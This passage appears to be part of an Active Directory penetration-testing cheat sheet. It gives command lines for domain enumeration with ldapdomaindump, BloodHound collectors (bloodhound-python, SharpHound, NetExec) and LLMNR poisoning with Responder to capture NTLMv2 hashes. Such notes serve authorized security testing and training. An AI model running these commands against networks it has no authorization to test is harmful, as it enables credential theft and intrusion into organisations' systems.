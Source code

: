 #### Get Domain Information with LdapDomainDump
---
```c
ldapdomaindump <IP> -u 'DOMAIN\USERNAME' -p 'PASSWORD' -o domaindump
```

#### Bloodhound Collectors
---
##### Using bloodhound-python from Linux:

```c
bloodhound-python -d <DOMAIN> -u <USER> -p <PASSWD> -ns <DC-IP> -c all
```

##### Using **SharpHound.exe** from a non-domain joined windows machine:

- **NOTE:** Configure your system DNS server to be the IP address of a domain controller in the target domain.
- From the attacker's machine:

```c
runas /netonly /user:DOMAIN\username cmd.exe
```

- Verify a valid domain authentication (attacker's machine):

```c
net view \\DOMAIN\
```

-  On the new `cmd` windows spawned by `runas`:

```c
SharpHound.exe -d DOMAIN
```

##### Using NetExec's Bloodhound Ingestor Module

```c
nxc ldap <ip> -u user -p pass --bloodhound --collection All
```

## Active Directory Exploitation
---

### Initial Attacks ( No Credentials / No Sessions )
---
#### LLMNR Poisoning with Responder
---
- Starting Responder to capture `NTLMv2` hashes:

```c
sudo responder -I <INTERFACE> -v
```

